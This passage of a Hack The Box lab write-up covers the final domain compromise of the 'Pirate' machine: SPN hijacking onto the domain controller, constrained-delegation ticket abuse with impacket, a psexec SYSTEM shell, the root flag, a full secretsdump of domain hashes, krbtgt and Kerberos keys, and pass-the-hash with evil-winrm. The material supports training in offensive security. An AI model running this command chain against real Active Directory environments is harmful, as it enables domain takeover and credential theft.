Successfully installed asn1crypto-1.5.1 asysocks-0.2.18 badauth-0.1.6 badldap-0.7.5 bloodyAD-2.5.4 cffi-2.0.0 cryptography-44.0.2 dnspython-2.8.0 h11-0.16.0 kerbad-0.5.10 prompt-toolkit-3.0.52 pycparser-3.0 pycryptodomex-3.23.0 six-1.17.0 tabulate-0.10.0 tqdm-4.67.3 unicrypto-0.0.12 unidns-0.0.4 wcwidth-0.6.0 winacl-0.1.9
```

With the tools in place we first removed the `HTTP/WEB01.pirate.htb` SPN from `WEB01$`.

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/bloodyAD_msldap]
└─$ python3 bloodyAD.py -H 10.129.17.202 -d pirate.htb -u a.white_adm -p 'P@ssw0rd' msldap delspn "CN=WEB01,CN=Computers,DC=pirate,DC=htb" "HTTP/WEB01.pirate.htb"
SPN removed!
```

Then we added the same SPN to `DC01$` effectively hijacking it.

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/bloodyAD_msldap]
└─$ python3 bloodyAD.py -H 10.129.17.202 -d pirate.htb -u a.white_adm -p 'P@ssw0rd' msldap addspn "CN=DC01,OU=Domain Controllers,DC=pirate,DC=htb" "HTTP/WEB01.pirate.htb" 
SPN added!
```

Later a few of us experienced small issues using `BloodyAD`. An alternative way to change the `SPN` was the use of `addspn`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Pirate/files]
└─$ sudo addspn -u 'pirate.htb\a.white_adm' -p 'P@ssw0rd' -t 'WEB01$' -s 'HTTP/WEB01.pirate.htb' --remove DC01.pirate.htb
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Pirate/files]
└─$ sudo addspn  -u 'pirate.htb\a.white_adm' -p 'P@ssw0rd' -t 'DC01$' -s 'HTTP/WEB01.pirate.htb' DC01.pirate.htb
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```

We verified that the `HTTP/WEB01.pirate.htb` SPN was now registered to the Domain Controller.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ bloodyAD --host 10.129.17.202 -d pirate.htb -u a.white_adm -p 'P@ssw0rd' get object 'DC01$' --attr servicePrincipalName

distinguishedName: CN=DC01,OU=Domain Controllers,DC=pirate,DC=htb
servicePrincipalName: HTTP/WEB01.pirate.htb; Hyper-V Replica Service/DC01; Hyper-V Replica Service/DC01.pirate.htb; Microsoft Virtual System Migration Service/DC01; Microsoft Virtual System Migration Service/DC01.pirate.htb; Microsoft Virtual Console Service/DC01; Microsoft Virtual Console Service/DC01.pirate.htb; Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/DC01.pirate.htb; ldap/DC01.pirate.htb/ForestDnsZones.pirate.htb; ldap/DC01.pirate.htb/DomainDnsZones.pirate.htb; DNS/DC01.pirate.htb; GC/DC01.pirate.htb/pirate.htb; RestrictedKrbHost/DC01.pirate.htb; RestrictedKrbHost/DC01; RPC/21c2943d-6163-4df9-aff7-3d164aa2cfbb._msdcs.pirate.htb; HOST/DC01/PIRATE; HOST/DC01.pirate.htb/PIRATE; HOST/DC01; HOST/DC01.pirate.htb; HOST/DC01.pirate.htb/pirate.htb; E3514235-4B06-11D1-AB04-00C04FC2DCD2/21c2943d-6163-4df9-aff7-3d164aa2cfbb/pirate.htb; ldap/DC01/PIRATE; ldap/21c2943d-6163-4df9-aff7-3d164aa2cfbb._msdcs.pirate.htb; ldap/DC01.pirate.htb/PIRATE; ldap/DC01; ldap/DC01.pirate.htb; ldap/DC01.pirate.htb/pirate.htb
```

With this hijacked SPN we could now abuse Kerberos delegation to obtain a ticket for `Administrator` on the Domain Controller.

### KDC Abuse

Using `impacket-getST` we leveraged the `Constrained Delegation with Protocol Transition` on `a.white_adm` to request a service ticket. We specified the hijacked `HTTP/WEB01.pirate.htb` SPN and used the `-altservice` parameter to change the target service to `CIFS/DC01.pirate.htb`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ impacket-getST PIRATE.HTB/a.white_adm:'P@ssw0rd' -spn HTTP/WEB01.pirate.htb -impersonate Administrator -dc-ip DC01.pirate.htb -altservice CIFS/DC01.pirate.htb 
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from HTTP/WEB01.pirate.htb@PIRATE.HTB to CIFS/DC01.pirate.htb@PIRATE.HTB
[*] Saving ticket in Administrator@CIFS_DC01.pirate.htb@PIRATE.HTB.ccache
```

We successfully obtained a service ticket for `Administrator` to access `CIFS` on `DC01`. Now we exported this ticket and used it to gain access to the Domain Controller.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ export KRB5CCNAME=Administrator@CIFS_DC01.pirate.htb@PIRATE.HTB.ccache
```

After this step we successfully obtained `SYSTEM` access on the Domain Controller.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ impacket-psexec DC01.pirate.htb -k -no-pass                                                                                                                   
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on DC01.pirate.htb.....
[*] Found writable share ADMIN$
[*] Uploading file RauTopfC.exe
[*] Opening SVCManager on DC01.pirate.htb.....
[*] Creating service ndjD on DC01.pirate.htb.....
[*] Starting service ndjD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.8385]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

## root.txt

```shell
C:\Users\Administrator\Desktop> type root.txt
f62b0475b29c9e3a28cc79861040c28e
```

## Post Exploitation

With Domain Admin access we performed a comprehensive dump of all domain credentials using `impacket-secretsdump`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ impacket-secretsdump -k -no-pass DC01.pirate.htb
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xaf025c301b1be34c7df7d48a75318dd6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:598295e78bd72d66f837997baf715171:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
PIRATE\DC01$:plain_password_hex:27b07a5396ad08381b57442caef5ee69bab506eac632af527e41a2baac5932893610810ada1a3e36e35b7e79d6affb5873aaac4ed4ddf8af23fc21b8bcd98913da714bf87a6880c3286a0304bde7f28b894cbb27735129eff5ebb5c66d9752703432e62a25483bef24ca4c1601c73d7000ebdb8ab7e73fa0cc56bb8a9f67765296fef58700176f2cbbf657ec3e6a253f675bc80c3ab2ed4baa60f9455a95fe6f917c808fb23f06cdb9e792945913888f20c4107c20ed95f9ea6561e471de6f35dfb42f5a8c5e036a67d8919eed8d859e4c73f467c5f7ed55d162a227f5a2b450997d44454d0674763edfd96fceb54de5
PIRATE\DC01$:aad3b435b51404eeaad3b435b51404ee:230600b8b669ffa1dccf403058170dae:::
[*] DefaultPassword 
PIRATE\Administrator:gODNiUG69Mz77SIZ
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x8a560e0cffe96c0a46e71bcaa3b28423dbeb9b42
dpapi_userkey:0x93c2b4b55c67476071200597589c355c59c6b0d2
[*] NL$KM 
 0000   0C 4F 55 E3 91 5F 39 93  6F 01 C4 8E C1 16 02 33   .OU.._9.o......3
 0010   32 FA 76 B0 95 EB 04 FD  C6 6A 16 EE E8 01 3C A9   2.v......j....<.
 0020   8B 2A 4A 31 BF C5 CC ED  61 57 B6 A6 D7 F2 62 20   .*J1....aW....b 
 0030   86 86 B7 51 2B 89 15 BE  4C 1D 07 27 A3 63 CB CE   ...Q+...L..'.c..
NL$KM:0c4f55e3915f39936f01c48ec116023332fa76b095eb04fdc66a16eee8013ca98b2a4a31bfc5cced6157b6a6d7f262208686b7512b8915be4c1d0727a363cbce
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:598295e78bd72d66f837997baf715171:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:33071738496aba54a991ccc80875c97e:::
pirate.htb\a.white_adm:1104:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
pirate.htb\a.white:3101:aad3b435b51404eeaad3b435b51404ee:d2593a013aaf8e077ab0e69f9471b4c1:::
pirate.htb\pentest:4106:aad3b435b51404eeaad3b435b51404ee:32e1d98aef1071b86d5132f6bb18f3fa:::
pirate.htb\j.sparrow:4110:aad3b435b51404eeaad3b435b51404ee:cfea2c42c4e9e5a1ac6b7ed4b9a9f518:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:230600b8b669ffa1dccf403058170dae:::
WEB01$:3102:aad3b435b51404eeaad3b435b51404ee:feba09cf0013fbf5834f50def734bca9:::
MS01$:4102:aad3b435b51404eeaad3b435b51404ee:b80b20b63597d94d0e5c95d119a11c60:::
EXCH01$:4103:aad3b435b51404eeaad3b435b51404ee:bc74a7036b998a5e098615df5af3dfb8:::
gMSA_ADCS_prod$:4105:aad3b435b51404eeaad3b435b51404ee:25c7f0eb586ed3a91375dbf2f6e4a3ea:::
gMSA_ADFS_prod$:4108:aad3b435b51404eeaad3b435b51404ee:fd9ea7ac7820dba5155bd6ed2d850c09:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9918bbcfaaad184f895a36edb7aab5bff972912dcf436cf490fc6618cf7bfb56
Administrator:aes128-cts-hmac-sha1-96:7ab7e5b8e8c440068cb254a33a49973f
Administrator:des-cbc-md5:08c1f7b9269bba9d
krbtgt:aes256-cts-hmac-sha1-96:03790815a135127e43d013fde730fadeb5e4923f0bbdc10007c28b31a605ac77
krbtgt:aes128-cts-hmac-sha1-96:896c5cf8d9f0026c0a0b5bfc8ae9dc86
krbtgt:des-cbc-md5:8c750df75e206efd
pirate.htb\a.white_adm:aes256-cts-hmac-sha1-96:b93141390b8061e46620d4208d95dd60e2b863513be001f1702fd6eef3118ff1
pirate.htb\a.white_adm:aes128-cts-hmac-sha1-96:ce15db9cc8393bb7c3463a6c2925c180
pirate.htb\a.white_adm:des-cbc-md5:bc2683387526b62f
pirate.htb\a.white:aes256-cts-hmac-sha1-96:b6e3c4602f954134dbe36e26f6aafcdd4e02e9b2b7dd7f7acbadeddaed185d4c
pirate.htb\a.white:aes128-cts-hmac-sha1-96:6d81d6af71aa068000ddaa0ca850b338
pirate.htb\a.white:des-cbc-md5:292cf4e3258970c4
pirate.htb\pentest:aes256-cts-hmac-sha1-96:17a5b8083ee7dc21136a33c8709e23ede3013b2a4cc8d0b295170178301490d2
pirate.htb\pentest:aes128-cts-hmac-sha1-96:a3f801fde67f011eb2f71213832e2275
pirate.htb\pentest:des-cbc-md5:643bdab6f8929ef1
pirate.htb\j.sparrow:aes256-cts-hmac-sha1-96:9c886bfb1cf4b3eefaee10735ec2939d09e9532bc8803d902564a5acfb6cef03
pirate.htb\j.sparrow:aes128-cts-hmac-sha1-96:01ee118ed18232d868567cf706197b87
pirate.htb\j.sparrow:des-cbc-md5:1a618a163ed9b662
DC01$:aes256-cts-hmac-sha1-96:adaad717697e6f92e1a5fad97ce39858ac12482bc97ee17b196cd554c779e77e
DC01$:aes128-cts-hmac-sha1-96:62a8402d4da8746a8aea71ea256daa5e
DC01$:des-cbc-md5:c1622a1cd58634b9
WEB01$:aes256-cts-hmac-sha1-96:57b48ef53425adf16b2409ea4d980de1007c9f61b126bdc1c05d3d830c727526
WEB01$:aes128-cts-hmac-sha1-96:b6b018d4edd476f0999d6f666844cf77
WEB01$:des-cbc-md5:07fdc404ec9d94e9
MS01$:aes256-cts-hmac-sha1-96:77cae26a67045bb36d29247058bb4fb5d8061676cc5c97f64742b5981a7bdf72
MS01$:aes128-cts-hmac-sha1-96:ed38c245cc9bbb5e929ca7cfa251ba46
MS01$:des-cbc-md5:2c0e2619c83d6eba
EXCH01$:aes256-cts-hmac-sha1-96:d37ca3178f7a56b8d485a41609afd8de23ae68d53ea2da178e9f65ca41b45ed2
EXCH01$:aes128-cts-hmac-sha1-96:8104dc99e77fe6a0b20a0ff975479427
EXCH01$:des-cbc-md5:4516d0ab52fd2a94
gMSA_ADCS_prod$:aes256-cts-hmac-sha1-96:9914ba076bcac3bb56424c0b7d8ea8b45eb088d87fdbee3d1c6a386709e20771
gMSA_ADCS_prod$:aes128-cts-hmac-sha1-96:8e87fa0a6d2d81ff7bc5da963838e714
gMSA_ADCS_prod$:des-cbc-md5:7a5d925d3473e07f
gMSA_ADFS_prod$:aes256-cts-hmac-sha1-96:6ccf53f00842805c75c7b314bdee5df355849093b3ef64a443c011f81f962f06
gMSA_ADFS_prod$:aes128-cts-hmac-sha1-96:fffb52ec0f49bc1eb872cfa4fa4f93ad
gMSA_ADFS_prod$:des-cbc-md5:7cba26cb838f4a76
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[-] SCMR SessionError: code: 0x41b - ERROR_DEPENDENT_SERVICES_RUNNING - A stop control has been sent to a service that other running services are dependent on.
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

With these credentials we could authenticate as any user in the domain including using Pass-the-Hash for the `Administrator` account.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i DC01.pirate.htb -u 'Administrator' -H '598295e78bd72d66f837997baf715171'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
